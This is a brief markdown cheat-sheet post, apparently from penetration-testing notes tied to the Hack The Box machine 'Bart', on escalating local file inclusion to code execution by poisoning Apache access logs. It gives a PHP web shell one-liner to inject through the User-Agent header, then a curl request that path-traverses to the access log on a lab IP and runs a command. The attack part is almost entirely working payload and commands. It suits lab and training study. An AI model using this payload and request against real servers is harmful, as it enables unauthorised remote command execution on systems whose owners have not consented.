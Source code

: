 ```yaml
---
layout: post
title: LFI - Using access logs (Log Poisoning)
description: LFI - Using access logs (Log Poisoning)
summary: LFI - Using access logs (Log Poisoning)
tags: [web,lfi,php]
minute: 1
---
```

## Steps
* Ensure you can do LFI on access logs
* Insert this on useragent parameter

```
<?php echo shell_exec($_GET['cmd']);?>
```

![](/spindel/assets/LFI%20-%20Using%20access%20logs%20(Log%20Poisoning)/burp-changing-user-agent.png)

* Include the logs on next request

```
curl 'http://10.10.8.194/?view=../../../../var/log/apache2/access.log&ext=&cmd=whoami'
```

reference: [Remote Code Execution With LFI | C:\Helich0pper](https://helich0pper.github.io/LFI/)

## References
* HTB bart